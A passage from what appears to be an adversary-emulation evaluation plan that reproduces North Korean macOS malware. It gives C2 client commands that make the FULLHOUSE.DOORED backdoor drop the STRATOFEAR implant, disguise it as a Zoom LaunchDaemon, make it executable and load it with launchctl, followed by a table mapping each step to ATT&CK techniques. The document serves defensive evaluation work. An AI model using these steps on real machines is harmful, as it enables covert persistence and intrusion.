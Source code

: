     ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "pingfang.ttf.md5", "arg":"/Library/Fonts/pingfang.ttf.md5"}'
    ```

* Task FULLHOUSE.DOORED to download and create STRATOFEAR's LaunchDaemon:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "stratofear_launchd.plist", "arg":"/Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist"}'
    ```

* Task FULLHOUSE.DOORED to set STRATOFEAR as executable:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "chmod 0755 /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool"}'
    ```

* Task FULLHOUSE.DOORED to execute STRATOFEAR via launchctl:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "launchctl load -w /Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist"}'
    ```

* Confirm C2 registration of STRATOFEAR
* :camera: Screenshot the registration of STRATOFEAR in the C2 server
output.

### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
>directly map to evaluation sub-steps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| FULLHOUSE.DOORED downloads STRATOFEAR and files | [DownloadFile](../Resources/FULLHOUSE.DOORED/src/core.hpp#L63) | T1105 Ingress Tool Transfer | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| FULLHOUSE.DOORED executes commands using NSTask | [ExecuteCmd](../Resources/FULLHOUSE.DOORED/src/core.hpp#L49) | T1106 Native API | [Objective-See](https://objective-see.org/blog/blog_0x77.html) |
| FULLHOUSE.DOORED executes commands using /bin/zsh | [ExecuteCmd](../Resources/FULLHOUSE.DOORED/src/core.mm#L88) | T1059.004 Command and Scripting Interpreter: Unix Shell | [Objective-See](https://objective-see.org/blog/blog_0x77.html) |
| FULLHOUSE.DOORED creates LaunchDaemon | - | T1543.004 Create or Modify System Process: Launch Daemon | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| FULLHOUSE.DOORED set STRATOFEAR as executable via chmod | - | T1222.002 File and Directory Permissions Modification: Linux and Mac File and Directory Permissions Modification | - |
| FULLHOUSE.DOORED executes LaunchDaemon via launchctl | - | T1569.001 System Services: Launchctl | - |
| STRATOFEAR masquerades as Zoom files | - | T1036.005 Masquerading: Match Legitimate Name or Location | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| STRATOFEAR communicates over HTTPS | [SendHTTPSRequest](../Resources/STRATOFEAR/src/implant/comms.hpp#L86) | T1071.001 Application Layer Protocol: Web Protocols | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| STRATOFEAR communicates over HTTPS | [SendHTTPSRequest](../Resources/STRATOFEAR/src/implant/comms.hpp#L86) | T1573.002 Encrypted Channel: Asymmetric Cryptography | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |

## Step 3 - Defense Evasion
